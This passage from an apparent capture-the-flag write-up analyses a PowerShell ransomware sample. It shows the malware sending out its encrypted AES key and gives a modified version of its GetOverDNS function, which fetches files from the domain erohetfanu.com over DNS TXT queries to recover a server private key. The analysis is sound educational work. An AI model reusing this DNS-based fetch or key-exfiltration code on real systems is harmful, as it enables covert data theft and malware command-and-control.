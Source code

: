 ``` powershell
# encrypt the encryption key with public key from the certificate.
$encryptedKey = (PublicKeyEncrypt $key $p_k).ToString()
# send the encrypted key out.
$c_id = (SendKey $encryptedKey)
```

This is actually a good way to store the keys. Because even if we can reverse the encryption algorithm, we cannot decrypt the encrypted keys w/o having access to the private key.

`server.crt` is a normal DER-encoded x509 certificate and does not have the private key. But we got a hint in challenge 8 about file names inside `app.js`:

``` js
key: fs.readFileSync(__dirname + '/keys/server.key'),
cert: fs.readFileSync(__dirname + '/keys/server.crt'),
```

What if we called `GetOverDNS('server.key')`? This is my modified `GetOverDNS` that stores the output in a file of the same name w/o interrupting the malware.

``` powershell
# modified function.
function GetOverDNS ($f) {
    $godnsarg = "Called GetOverDNS({0})" -f (HexToASCII $f | Out-String).Trim()
    Write-Host $godnsarg
    $h = ''
    foreach ($i in 0..([convert]::ToInt32($(Resolve-DnsName -Server erohetfanu.com -Name "$f.erohetfanu.com" -Type TXT).Strings,10) - 1)) {
        Start-Sleep -m 50
        $h += $(Resolve-DnsName -Server erohetfanu.com -Name "$i.$f.erohetfanu.com" -Type TXT).Strings 
    }
    (HexToASCII $h) | Out-String | Out-File -FilePath (HexToASCII $f | Out-String).Trim()
    Write-Host "Return from GetOverDNS"
    return (HexToASCII $h)
}
```

Now we can call `GetOverDNS('server.key')` and get the private key:

```
-----BEGIN PRIVATE KEY-----
// removed
-----END PRIVATE KEY-----
```

The header indicates the key is in the PKCS8 format. If the key was PKCS1, the header would have said `BEGIN RSA PRIVATE KEY`.

These files are stored in UTF-16, we can convert them to ASCII using PowerShell:

``` powershell
Get-Content .\server.key | Out-File -Encoding ASCII server-ascii.key
```

What is the AES key used for? It's used to encrypt `elfdb` files as seen in `EncryptDecryptFile`:
